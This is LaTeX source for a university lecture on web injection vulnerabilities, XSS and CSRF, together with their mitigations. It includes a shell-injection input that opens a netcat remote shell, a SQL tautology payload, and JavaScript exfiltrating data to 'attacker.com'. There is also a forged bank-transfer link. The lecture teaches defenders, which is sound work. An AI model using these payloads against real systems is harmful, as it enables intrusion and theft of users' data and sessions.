\documentclass[11pt,twoside]{scrartcl}
%\documentclass[11pt,twoside]{article}

%opening
\newcommand{\lecid}{15-316}
\newcommand{\leccourse}{Software Foundations of Security and Privacy}
\newcommand{\lecdate}{} %e.g. {October 21, 2013}
\newcommand{\lecnum}{18}
\newcommand{\lectitle}{Safety and Information Flow on the Web: II}
\newcommand{\lecturer}{Matt Fredrikson}
\newcommand{\lecurl}{https://15316-cmu.github.io/index}

\usepackage{varwidth}
\usepackage{lecnotes}
\usepackage[irlabel]{bugcatch}

\usepackage{tikz}
\usetikzlibrary{automata,shapes,positioning,matrix,shapes.callouts,decorations.text,patterns,decorations.pathreplacing,matrix,arrows,chains,calc}

% \usepackage[bracketinterpret,seqinfers,sidenotecalculus]{logic}
% \newcommand{\I}{\interpretation[const=I]}

% \newcommand{\bebecomes}{\mathrel{::=}}
% \newcommand{\alternative}{~|~}
% \newcommand{\asfml}{F}
% \newcommand{\bsfml}{G}
% \newcommand{\cusfml}{C}
% \def\sqsubseteqftrule{L}%
% \def\rightrule{R}%

\begin{document}

\newcommand{\atrace}{\omega}%
%% the standard interpretation naming conventions
\newcommand{\stdI}{\dTLint[state=\omega]}%
\newcommand{\Ip}{\dTLint[trace=\atrace]}%
\newcommand{\ws}{\omega}\newcommand{\wt}{\nu}% 

\newdimen{\linferenceRulehskipamount}
\linferenceRulehskipamount=2em
  \linferenceRulevskipamount=0.6em

% \newcommand{\lowt}{\lowsec}
% \newcommand{\hight}{\hisec}

\lstdefinestyle{customc}{
  belowcaptionskip=1\baselineskip,
  breaklines=true,
  language=C,
  showstringspaces=false,
  numbers=none,
  % xleftmargin=1ex,
  framexleftmargin=1ex,
  % numbersep=5pt,
  % numberstyle=\tiny\color{mygray},
  basicstyle=\footnotesize\ttfamily,
  keywordstyle=\color{blue},
  commentstyle=\itshape\color{purple!40!black},  
  stringstyle=\color{orange},
  morekeywords={output,assume,observe,input,bool,then,fun,match,in,val,list,type,of,string,unit,let,bytes,mov,imul,add,sar,shr,function,forall,nat,requires,ensures,method,returns,assert,new,array,modifies,reads,old,predicate,lemma,seq,calc,nan,var,exists,invariant,decreases,datatype,declassify,uint8},
  tabsize=2,
  deletestring=[b]',
  backgroundcolor=\color{gray!15},
  frame=tb
}
\lstset{escapechar=@,style=customc}

\maketitle
\thispagestyle{empty}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Introduction}

In the previous lecture we started discussing web applications, and covered a fair bit of ground regarding the platform and conventions. At the very end of the lecture, we hinted at a class of \emph{code injection} vulnerabilities that arise when untrusted inputs are used by the server side to compute responses. Today we will describe these vulnerabilities in greater depth, and continue on to \emph{cross-site scripting} (XSS) and \emph{cross-site request forgery} (CSRF) attacks. Along the way we will describe several best practices that can be used to mitigate such vulnerabilities in practice.

\section{Client-side injection vulnerabilities}

The use of dynamic server-side scripting opens up numerous possibilities for vulnerability. The most common among these are called \emph{client-side injection}, and occur when request arguments are used to perform actions on the server that are potentially unsafe. 

\begin{figure}
\begin{lstlisting}[language=PHP]
<!DOCTYPE html>
<html>
  <body>
    <?php 
      $t = $_GET["ip"];
      $o = shell_exec("ping -C 3" . $t);
      echo '<p>$o</p>'; 
    ?>
  </body>
</html>
\end{lstlisting}

\caption{\label{fig:injection1} PHP script with a command injection vulnerability. This example is thanks to David Brumley.}
\end{figure}

Consider the PHP script shown in Figure~\ref{fig:injection1}. This might constitute the server-side component of a web application that allows users to ping a given host from the server, and returns the results of the \verb'ping' command directly back to the user. In order to do this, the PHP code calls \verb'shell_exec' to execute the \verb'ping' utility on an IP address given in the \verb'ip' argument of the URI request. For example, suppose that the web app were located at \nolinkurl{http://freeping.com/php/ping}. Then the following request would return the output of \verb'ping' in an HTML page:
\begin{verbatim}
http://freeping.com/php/ping?ip=28.2.42.10
\end{verbatim}
The given argument is simply concatenated with the string \verb'ping -C 3' before being sent to \verb'shell_exec', and this is where the vulnerability lies. Shell commands support composition with the usual semicolon location, so if one were to execute the command \verb'ping -C 3 28.2.42.10; ls', then the result would be the output of \verb'ping', followed by a listing of the directory from which the command was executed. An malicious user could exploit this fact by sending the request:
\begin{verbatim}
http://freeping.com/php/ping?ip=28.2.42.10%3b+ls
\end{verbatim}
URI parameters can contain non-alphanumeric symbols like semicolon as long as they are encoded in a particular way. Encodings consist of a percent sign followed by a hexadecimal code corresponding to the symbol. The \verb'+' is decoded as a space, as space characters are not allowed in URI strings. 

The final result would be that when the PHP script is invoked, \verb'$_GET["ip"]$' returns the string \verb'ping -C 3 28.2.42.10; ls', which will in turn cause the generated HTML to contain the server's current directory listing. While a directory listing might not seem so bad, an enterprising attacker would leverage this to achieve quite a bit more. Sending an encoded version of the string:
\begin{verbatim}
ping -C 3 28.2.42.10; netcat -v -e ‘/bin/bash’ -l -p 31337
\end{verbatim}
Will cause a remote shell to open on port 31337, running at the same privilege level as the PHP interpreter.

\subsection{SQL injection}

\emph{Structured Query Language} (SQL) is a domain-specific language that is used to manage and interact with databases. SQL is very commonly-used to implement parts of server-side web applications, as it provides a rich set of commands for accessing, aggregating, and modifying the information stored in relational databases, and can be easily used with PHP.

Relational databases are collections of data modeled as one or more \emph{tables}, where each table is organized into columns and rows. A basic SQL query takes the form shown in Equation~\ref{eq:basicsql}, which returns a specified set of columns from a table satisfiying some Boolean expression.
\begin{equation}
\label{eq:basicsql}
\keywordfont{SELECT <columns> from <table> where <boolexp>}
\end{equation}
Over the years SQL has grown into a rather large language with extensive functionality beyond selection queries, but for the purposes of this lecture it will suffice to understand this one sort of construct.

\begin{figure}
\begin{lstlisting}[language=PHP]
<!DOCTYPE html>
<html>
  <?php 
    $id = $_GET['id'];
    $getid = "SELECT firstname, lastname FROM users WHERE userid = $id";
    $result = mysql_query($getid);
    echo '<p>$result</p>';
  ?>
</html>
\end{lstlisting}

\caption{\label{fig:injection2} PHP script with a SQL injection vulnerability. This example is thanks to David Brumley.}
\end{figure}

Many web applications function by taking user input from the client side, and using it to construct a SQL query that will fetch relevant information from a back-end database. For example, the PHP code in Figure~\ref{fig:injection2} reads the client-side parameter \verb'id', and constructs a \keywordfont{SELECT} query from it to look up the names of individuals with a certain user ID. By this point, you can probably guess what the vulnerability is. For example, if the user provided a string value for \keywordfont{id} as \verb'"1 or 1=1;"', then the condition used to select rows would contain the tautology \verb'1=1' in a disjunction, and thus return the \verb'firstname' and \verb'lastname' column of every row.

SQL injection vulnerabilities are among the most common vulnerabilities on the web today~\cite{owasp10}. Successful exploits often result in leaked sensitive information such as usernames, passwords, and personal data. For example, the famous CardSystems attack from 2005~\cite{cardsystems} was a SQL injection vulnerability that resulted in a leak of 40 million unencrypted credit card numbers stored in a relational database. This resulted in CardSystems, a third-party responsible for processing the payments of organizations like Visa and Mastercard, going out of business.

\subsection{Mitigation}
At first glance, it seems that the central problem here is that untrusted input was used as an argument to \verb'shell_exec'. But this is indeed unavoidable if we are to implement the necessary functionality for this application. A more nuanced view is that the PHP script blindly passed untrusted input to \verb'shell_exec' without first checking to make sure that it contained only an IP address, and nothing more. This is called \emph{input validation}, and is usually considered to be the best practice for avoiding client-side injection vulnerabilities. 

However, input validation is a nuanced affair. There are multiple types of injection vulnerability; for example, if the PHP script accesses a back-end database using queries that are influenced by untrusted input, then without appropriate validation an attacker might read more of the database than intended, or worse yet, modify it. There is no silver bullet for input validation, and it must be done carefully on a case-by-case basis. Recent versions of PHP and other languages contain functions that assist in validating certain kinds of inputs (e.g., shell commands and database queries), and developers should only use those when dealing with such functionality. There are also static analysis tools that look for information flow between untrusted input and functions with potentially dangerous behavior, and subsequently advise developers on the best course of action for mitigating the potential vulnerability. But these tools are not perfect, and are no substitute for careful defensive programming to avoid injection attacks.

\paragraph{Parameterized queries.}

While injection vulnerabilities represent a very broad class of security issues that can apply to any situation in which untrusted inputs are used to interact with sensitive trusted entities such as databases and command shells, many of the common targets have developed more principled ways of incorporating untrusted input data. One such approach that is widely used to prevent SQL injection is \emph{parameterized queries} (sometimes called \emph{prepared} queries).

The idea behind parameterized queries is that when constructing SQL queries from user input using string operations, information about how the provided input relates to the query semantics is not available. For example, in Figure~\ref{fig:injection2} the user input is intended to represent an integer, which becomes part of an integer equality test within a Boolean expression. But the script treats it like any other string, blindly copying it into the larger SQL query without regard for its intended purpose.

\begin{figure}
\begin{lstlisting}[language=PHP]
<!DOCTYPE html>
<html>
  <?php 
    $id = $_GET['id'];
    $conn = new PDO("mysql:dbname=mysql", "root");
    $st = $conn->prepare("SELECT lastname FROM users WHERE userid = ?");
    $params = array($id);
    $st->execute($params);
    $result = $st->fetch()[1];

    echo '<p>$result</p>';
  ?>
</html>
\end{lstlisting}

\caption{\label{fig:paramquery} Example from Figure~\ref{fig:injection2} mitigated with PHP Data Objects, a form of parameterized queries built into PHP5 for safe interactions with back-end data stores.}
\end{figure}

Figure~\ref{fig:paramquery} shows the use of parameterized queries to address the injection vulnerability from the previous example in Figure~\ref{fig:injection2}. The part that is essential to the technique is \verb'$conn-prepare' statement, which instantiates a SQL query with ``holes'' left for the user-provided parameters (represented by question marks). The language runtime compiles the query without running it, leaving typed arguments for the parameters. The next line prepares the parameters using data passed in from the user, and the \verb'$st->execute' line runs the query with the given parameters. Behind the scenes, the language runtime takes care of sanitizing and type-checking the parameter against the compiled query, and finally running it.

\section{Cross-site scripting attacks}

So far the injection attacks that we have considered assume a threat model where a malicious user in control of the client side of a web application seeks to exfiltrate or modify data stored on the server. Another form of injection attack resides in the ``opposite'' model, where attacker-controlled information stored on the server compromises the client-side safety of end-users. These are called \emph{cross-site scripting attacks} (abbreviated ``XSS'').

\begin{figure}
\begin{lstlisting}[language=PHP]
<!DOCTYPE html>
<html>
  <?php 
    $action = $_GET['act'];
    $conn = new PDO("mysql:dbname=mysql", "root");
    if($action == 'store') {
      $st = $conn->prepare("INSERT INTO data VALUES (?, ?)");
      $params = array(array($_GET['var'], $_GET['val']));
      $st->execute($params);
    } else if($action == 'get') {
      $st = $conn->prepare("SELECT val FROM data WHERE var = ?");
      $params = array($_GET['var']);
      $st->execute($params);
      echo '<p>$st->fetch()[1]</p>';
    }
  ?>
</html>
\end{lstlisting}

\caption{\label{fig:injection3} PHP script with a cross-site scripting vulnerability.}
\end{figure}

Consider the script shown in Figure~\ref{fig:injection3}, which is more or less an implementation of the task from Lab 0 in PHP for a server with a back-end SQL database. The script first reads from an input parameter \verb'act', which lets the user specify the action of either storing a value in a variable, or retrieving the value of a stored variable. Integers are boring, so let's assume that the intended functionality of the application is to let users associate string values with variable names in the database.

Now consider what happens when the user provides the following input, which we present without URL encoding to make it easier to read.
\begin{verbatim}
act=store&var=x&val=<script>alert('owned!')</script>
\end{verbatim}
This will cause the server to store the string \verb'<script>alert("owned!")</script>' in the database under variable \verb'x'. If another user subsequently issues the following request to get the value stored in \verb'x':
\begin{verbatim}
act=get&var=x
\end{verbatim}
Then the PHP script will render an HTML page with the \verb'<script>' element in it, causing their browser to faithfully parse and execute the JavaScript contained in it (i.e., display a pop-up alert with the message ``owned!'').

The important thing to notice here is that the attacker has caused arbitrary JavaScript to run within the browsers of users who visit the site. Recalling our discussion of the Same-Origin Policy (SOP) from the previous lecture, that code will run in the context of the victim website. This is the origin of the term \emph{cross-site} scripting, where an attacker who is associated with one origin (e.g., \verb'attacker.com') causes script content to run on sites of a different origin (e.g., \verb'victim.com').

\subsection{Stealing information with XSS} 
The attack described in the example above may not seem like a big deal. After all, what sorts of bad things can a JavaScript app do anyway, especially considering that the SOP should prevent the script from communicating with other origins?

A basic XSS attack will leverage the DOM API in combination with the allowances for cross-domain embedded content to exfiltrate (i.e., send) information contained on a page back to a server controlled by the attacker. For example, suppose that that the vulnerable site on \verb'victim.com' displayed the user's bank account number in an HTML element with \verb'id' ``\verb'acctnum'''. Then the attacker could inject a script that first used the DOM API to obtain the displayed number:
\begin{lstlisting}[language=Java]
    acctnum = document.getElementById('acctnum').Value;
\end{lstlisting}
Now the attacker wishes to send this information to his server at \verb'attacker.com'. Although the SOP prevents most forms of bi-directional communication  between separate origins, this doesn't matter in the least for the attacker's goals. They can simply use the DOM API again to create a new \verb'img' element on the victim site, with the secret account number contained in the URI of the requested image.
\begin{lstlisting}[language=Java]
    var imgelt = document.createElement("img");
    imgelt.setAttribute('src', 'http://attacker.com/'+acctnum+'.png');
    imgelt.setAttribute('height', '1px');
    imgelt.setAttribute('width', '1px');
    document.body.appendChild(imgelt);
\end{lstlisting}
When this code runs, the user's browser will proceed by updating the DOM of the victim site with a new 1-pixel image pointed at a URI containing the user's account number. Because the SOP allows cross-origin communication for embedded images, the user's browser will send a request to \verb'attacker.com' for the corresponding image file, and the attacker's web server can record the account number.

Note that there are a number of exceptions to the SOP (see the previous lecture), and many of them can be used in an XSS attack to exfiltrate data. Embedded images with remote origins are a popular vector and easy to implement, but this example attack could have used numerous other methods to achieve the same end.

\subsection{Session hijacking}
The perils introduced by XSS go beyond exfiltrating data rendered in the context of a remote origin in the browser. Another important class of attacks that rely on XSS are called \emph{session hijacking}, but to understand how they work we first need to develop some background about how client-server interactions in web applications take place.

\paragraph{HTTP.} The protocol that browsers use to retrieve data from web servers is called \emph{Hypertext Transfer Protocol} (HTTP). HTTP is a stateless protocol wherein clients submit \emph{request} messages that are answered with \emph{response} messages by the server. HTTP requests contain information specified in the URI given by a user, as well as other metadata pertaining to the client's configuration and possibly data that tracks a session across multiple request-response rounds (more on this later). HTTP responses contain the information that will be rendered by the browser (i.e., the HTML, CSS, and any scripts), as well as metadata pertinent to correct rendering of the content and possibly information about the server's configuration.

For example, if a user were to navigate to the URL \verb'http://example.com/index.html', their browser would send something resembling the following request.
\begin{verbatim}
GET /index.html HTTP/1.1
Host: example.com
\end{verbatim}
If the URI contained parameters, then these would be provided either in the argument to \verb'GET', or as data in a different request method called \verb'POST'. The server would respond with something like the following.
\begin{verbatim}
HTTP/1.1 200 OK
Date: Tue, 10 April 2018 22:38:34 GMT
Content-Type: text/html; charset=UTF-8
Content-Encoding: UTF-8
Content-Length: 138
Last-Modified: Mon, 09 April 2018 23:11:55 GMT
Server: Apache/1.3.3.7 (Unix) (Red-Hat/Linux)

<html>
<body>
  Hello World
</body>
</html>
\end{verbatim}
At this point, the request-response round is finished, and the client and server disconnect. The client's browser is responsible for parsing and rendering the content in the response appropriately.

\paragraph{Sessions and cookies.} Most web applications are stateful, and maintain a history of the user's interaction with the site across multiple HTML documents and interactions. The abstraction that web apps use to maintain this state is called a \emph{session}. Because HTTP is stateless, and the client and server disconnect after each round of request-response, some additional data in the form of a \emph{cookie} is needed to associate requests with sessions.

A cookie is a small piece of data that is sent by a user's browser to a web server. Cookies are associated with a domain and path, so that all requests that match these elements result in the browser sending the cookie along with a request. Cookies can be set in HTTP responses, or from JavaScript code running in the appropriate origin. Cookies are protected by the SOP, so that scripts running in remote origins cannot view the data associated with an application's cookie. Although the data stored in cookies can be arbitrary (but limited in size), most of the time they contain unique identifiers that tell the server who the user is. Figure~\ref{fig:cookiediagram} shows the sequence of messages that result in the establishment and use of a cookie. Notice that because the server did not specify an expiration date on the cookie, the browser will treat it as a session cookie in this example.

\begin{figure}
\centering

\begin{tikzpicture}
\matrix (m)[matrix of nodes, column  sep=1cm,row sep=8mm, nodes={draw=none, anchor=center,text depth=0pt},ampersand replacement=\& ]{
Client \& \& Server\\[-4mm]
 \& \keywordfont{\ \ \ \ GET /index.html\ \ \ \ } \& \\
 \& \keywordfont{Set-Cookie:token=abc123} \& \\
 \& \keywordfont{\ \ \ \ GET /index.html\ \ \ \ } \& \\[-8mm]
 \& \keywordfont{\ \ Cookie:token=abc123\ \ } \& \\
 \& \emph{\ \ Personalized content\ \ } \& \\[-8mm]
 \& \ \ \ \ \ \ \emph{for individual}~\keywordfont{abc123}\ \ \ \ \ \ \& \\
};

\draw[shorten <=-1.5cm,shorten >=-1.5cm] (m-1-1.south east)--(m-1-1.south west);
\draw[shorten <=-1.5cm,shorten >=-1.5cm] (m-1-3.south east)--(m-1-3.south west);
\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-2-2.south west)--(m-2-2.south east);
\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-3-2.south east)--(m-3-2.south west);
\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-5-2.south west)--(m-5-2.south east);
\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-7-2.south east)--(m-7-2.south west);
\end{tikzpicture}

\caption{\label{fig:cookiediagram} Simplified sequence of requests and responses to establish and utilize a cookie. If an HTTP request does not contain a cookie header, then the server responds by setting a cookie that is remembered by the browser and included in future requests.}
\end{figure}

There are two types of cookies: persistent cookies and session cookies. Persistent cookies are stored in the browser permanently (although most browsers allow users to delete them whenever they want), and are used to track users across multiple sessions including ones that span browser shutdown. Persistent cookies have a specified expiration date, after which the browser will automatically delete them. Session cookies are ephemeral, and reside in the browser's memory only for as long as the user navigates the website. Session cookies have no expiration date, and disappear once the user closes the browser tab or navigates away from the website. JavaScript code can access the cookie of the current origin through the field \verb'document.cookie'.

Cookies enable applications that first authenticate users with a login challenge (e.g., apps that request a username and password). When the user visits the login site, they complete a form containing username and password. These are sent to the server-side portion of the app (e.g., using URI parameters over an encrypted HTTPS connection), which checks the provided credentials against a back-end database. If the correct credentials were provided, then the server responds by sending a response containing a session cookie that the server-side app associates with the successfully-authenticated user. They can then navigate the website without having to provide credentials each time they need to view protected content.

\paragraph{Using XSS to hijack sessions.} We are now positioned to understand a new threat posed by XSS attacks. Recall that the essential capability afforded by XSS is to allow an attacker to run JavaScript code of their choice from the context of the victim site's origin. If a website \verb'victim.com' that uses password authentication and session cookies contains an XSS vulnerability, then it is possible for an attacker to exfiltrate the session cookie to their domain \verb'attacker.com'. For as long as the user stays logged in to \verb'victim.com', the attacker can send HTTP requests that include their \verb'victim.com' session cookie to access content as though they had successfully logged in as the user. In this way, they ``hijack'' the user's authenticated session to bypass the credential check, allowing them to view the same content as the user without ever having provided a password.

\begin{figure}
\centering
\resizebox{\textwidth}{!}{

\begin{tikzpicture}
\matrix (m)[matrix of nodes, column sep=1cm,row sep=8mm, nodes={draw=none, anchor=center,text depth=0pt},ampersand replacement=\& ]{
Attacker \& Client \& \keywordfont{victim.com}\\[-4mm]
\ \& \emph{Inject cookie exfil script via XSS} \& \ \\
\ \& |[xshift=8em]| \emph{Login credentials} \& \ \\
\ \& |[xshift=8em]| \keywordfont{Cookie:token=abc123} \& \ \\
\ \& |[xshift=-3em]| \emph{JS send}~\keywordfont{document.cookie} \& \ \\
\ \& \keywordfont{GET /homepage.html Cookie:token=abc123} \& \ \\
};

\draw[thick] (m-1-1.south east)--(m-1-1.south west);
\draw[thick] (m-1-2.south east)--(m-1-2.south west);
\draw[thick] (m-1-3.south east)--(m-1-3.south west);
\draw[thick,->] ($(m-2-1.south) - (0,1ex)$)--($(m-2-3.south) - (0,1ex)$);
\draw[thick,->] ($(m-3-2.south) - (8em,1ex)$)--($(m-3-3.south) - (0,1.7ex)$);
\draw[thick,->] ($(m-4-3.south) - (0,1.7ex)$)--($(m-4-2.south) - (8em,1ex)$);
\draw[thick,->] ($(m-5-2.south) - (-7em,1ex)$)--($(m-5-1.south) - (0em,1.7ex)$);
\draw[thick,->] ($(m-6-1.south) - (0,1ex)$)--($(m-6-3.south) - (0,1ex)$);
\end{tikzpicture}
}

\caption{\label{fig:xsshijack} Illustration of a cross-site scripting session hijacking attack. Before the user authenticates and recieves their session cookie, the attacker plants JavaScript code on the server that will run in the user's browser and send \texttt{victim.com}'s cookies to the attacker. The attacker accomplishes this by exploiting a cross-site scripting vulnerability.}
\end{figure}

This is depicted in Figure~\ref{fig:xsshijack}. The attacker's XSS JavaScript code can exfiltrate the session cookie despite the SOP using the same methods discussed earlier in the lecture, such as by embedding an image to a path that contains the cookie data.

\subsection{Mitigations}

Cross-site scripting vulnerabilities are really just another form of code injection, where the code is run on the client rather than the server. As with other forms of injection, they arise because of improper validation of untrusted input. While there are several principled defensive techniques emerging to mitigate the harm done by XSS, the best approach for preventing these attacks is to thoroughly validate any user-provided strings to ensure that they do not contain executable code. The most basic approach is to strip any HTML tags from strings, which can be accomplished in PHP using \verb'strip_tags()', and similar APIs in other languages. However, some applications wish to allow the use of certain harmless markup tags such as \verb'<b>' and \verb'<i>', which would be removed with such an approach. In such cases, advanced libraries like the OWASP HTML Sanitizer~\cite{owasphtml} are available to fine-tune a defense to the application's needs.

\section{Cross-site request forgery} 
A cousin of XSS session hijacking is called \emph{cross-site request forgery}. In a hijacking attack, the XSS exploit code must send the user's session cookie to a remote server, which then issues its own HTTP requests using that cookie in order to ``trick'' the server into believing that they came from the user. However, because the user's browser will send the session cookie for \verb'victim.com' in every request to the site, in some cases the attacker may not need to exfiltrate the actual cookie and can instead cause the user's browser to make requests directly to \verb'victim.com' on their behalf.

For example, suppose that once user Alice is logged into \verb'bank.com', she can initiate a transfer to Bob's account by issuing HTTP requests such as the following.
\begin{verbatim}
GET http://bank.com/transfer.do?acct=Bob&amount=$1000 HTTP/1.1
\end{verbatim}
Recall that this request will be sent along with the user's session cookie, which the server-side application associates with the user's last successful login. Suppose that Mallory wishes to divert the transfer to her account. If she just sends the appropriate request without a cookie (below), the server will not associate the request with a valid session and return an error. However, if Mallory can trick Alice into causing her browser to send the request, then Alice's cookie will go along with it and the transaction will succeed.

Mallory can do this in any number of ways. The most basic would be to trick Alice into clicking on a link that directly causes the transfer.
\begin{verbatim}
<a href="http://bank.com/transfer.do?acct=Mallory&amount=$1000 HTTP/1.1">
  Cat pictures!
</a>
\end{verbatim}
She could make this stealthier using an XSS vulnerability by inserting the link onto another site that Alice presumably trusts, and may interact with unguardedly. In some cases, she may even be able to use embedded content to cause the request, which may require no interaction on Alice's part other than visiting an XSS-vulnerable website.

\subsection{Mitigations.} As with the injection vulnerabilities that we have discussed, CSRF represents a rather broad class of attacks with no one-size-fits-all solution that is known. Users can take certain steps in configuring their browsers to reduce opportunities for CSRF. One approach is to use an extension that strips authentication information, and in particular cookie headers, from cross-origin requests. This would prevent some instances of the attack above that use embedded content and XSS to place the CSRF request. Some extensions take this further, disabling all cross-origin requests except those  explicitly authorized by the user. While the latter will prevent many CSRF attacks, it will also interfere significantly with the normal operation of many web applications.

The developer can take more effective steps to mitigate CSRF~\cite{csrfmitigation}. Straightforward mitigations involve checking the origin and referer headers in HTTP requests if they are present, to make sure that requests come from valid sources. However, not all browser configurations send these headers, so insisting on them could prevent some users from accessing content.

A more robust and general-purpose approach is to use \emph{synchronizer tokens}~\cite{csrfmitigation}. Synchronizer tokens are values generated by cryptographic random number generators, so that they are difficult to guess. Once generated for a session, they are embedded in all HTML documents generated throughout the session, and typically placed in invisible forms so that each time the user submits a request from the page, the synchronizer token is included as a URI parameter to the server. The server then checks to ensure that the token matches the one for the user's session before sending a response. These can be understood as a form of application-specific cookie that is only sent in requests that come from valid pages in the target domain, rather than being included in all requests to the corresponding origin.

\bibliographystyle{plain}
\bibliography{bibliography}
\end{document}